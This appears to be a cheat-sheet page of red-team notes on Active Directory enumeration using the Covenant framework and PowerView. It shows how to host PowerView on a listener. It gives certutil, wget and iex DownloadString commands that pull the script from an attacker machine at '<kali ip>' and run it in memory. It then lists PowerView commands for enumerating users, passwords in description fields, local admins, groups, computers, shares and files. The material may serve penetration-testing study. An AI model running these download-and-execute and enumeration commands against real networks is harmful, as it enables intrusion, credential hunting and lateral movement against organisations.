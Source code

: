 In Covenant:
```bash
Listeners > Hosted Files > Create > /powerview.ps1 > browser > select PowerView.ps1 > Create
```

Download the hosted File:
```powershell
certutil.exe -urlcache -f http://<kali ip>/powerview.ps1 powerview.ps1
wget http://<kali ip>/powerview.ps1 -OutFile powerview.ps1
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/powerview.ps1');get-netcomputer
```

> iex does not download the file, however it loads into memory. 
so we can execute commands of powerview in this case.



## Enumerating Users
First download powerview.ps1:
```powershell
get-netuser
get-netuser | select cn
get-netuser | select -expandproperty samaccountname
find-userfield -SearchField description "password"
```

Enumeration Local Admin Users:
```powershell
Invoke-EnumerateLocalAdmin
```


## Enumerating Groups
**powerview.ps1**:
```powershell
get-netgroup
get-netgroup -UserName "<user>"
get-netgroup -GroupName "<group>" -FullData
```

## Enumerating Domain Computers
**powerview.ps1**:
```powershell
get-netcomputer
get-netcomputer -Full-Data
get-NetComputer -OperatingSystem "*Windows 10"
get-NetComputer -OperatingSystem "*server" 
```

**Shares**:
```powershell
Invoke-ShareFinder
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```
**Files**:
```powershell
Invoke-FileFinder
```
